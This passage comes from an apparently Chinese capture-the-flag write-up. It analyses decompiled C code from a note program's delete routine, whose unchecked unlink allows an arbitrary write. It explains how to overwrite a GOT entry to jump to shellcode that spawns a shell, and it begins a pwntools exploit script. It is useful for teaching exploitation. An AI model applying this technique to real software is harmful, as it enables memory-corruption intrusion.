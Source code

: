         		// 读取要删除的地址转16进制,放eax_6
                read(0, &var_1a, 8); 
                int32_t eax_6 = strtol(&var_1a, nullptr, 0x10);
                
                // 看第一个字是否是其本身,即检测是不是一个chunk
                if (*(uint32_t*)eax_6 == eax_6) {
                    if (*(uint32_t*)arg1 == eax_6) {
                        *(uint32_t*)arg1 = *(uint32_t*)
                            (*(uint32_t*)arg1 + 8);
                    } else if (*(uint32_t*)(eax_6 + 8) != 0) {
                        void* eax_19 = *(uint32_t*)(eax_6 + 8); // bk
                        void* eax_21 = *(uint32_t*)(eax_6 + 4); // fd
                        // p->fd->bk = p->bk
                        // p->bk->fd = p->fd
                        *(uint32_t*)((char*)eax_21 + 8) = eax_19;
                        *(uint32_t*)((char*)eax_19 + 4) = eax_21;
                    } else {
                        *(uint32_t*)(*(uint32_t*)(eax_6 + 4) + 8) = 0;
                    }
                    write(1, "succeed!\n\n", 0xa);
                    free(eax_6);
                }
            }
            int32_t eax_26 = (eax_1 
                              ^ *(uint32_t*)((char*)gsbase + 0x14));
            if (eax_26 == 0) {
                return eax_26;
            }
            __stack_chk_fail(); 
        }
        ~~~

        

### 2.2	EXP 脚本构建

通过上述分析, 由于没开 NX 并且程序没有任何对于堆表的检查, 因此我们可以通过 unlink 的方式将任意数据写入任意位置. 

~~~c
void* eax_19 = *(uint32_t*)(eax_6 + 8); // bk
void* eax_21 = *(uint32_t*)(eax_6 + 4); // fd
// p->fd->bk = p->bk
*(uint32_t*)((char*)eax_21 + 8) = eax_19;
...
free(eax_6);
~~~

对于函数 sub_8048e99 中的上述代码, 我们可以通过改变 `bk` 的值, 将 `bk` 写入到 `(uin t32_t*)(p ->fd) + 8 ` 的位置. 比如覆盖掉一个函数 foo 的 got 表, 当 foo 被调用时将会执行 `bk` 处的指令. 那么既然没有 NX 我们可以直接在 `bk` 处写入一个跳转, 跳到一段获取 shell 的 shellcode 上执行. 

1. 新建节点并获取地址

    ~~~python
    print(p.recv())
    p.send("1\n")
    print(p.recv())
    p.send("test\n")	# title
    print(p.recv())
    p.send("type\n")	# type
    print(p.recv())
    p.send("content\n")	# content
    print(p.recv())
    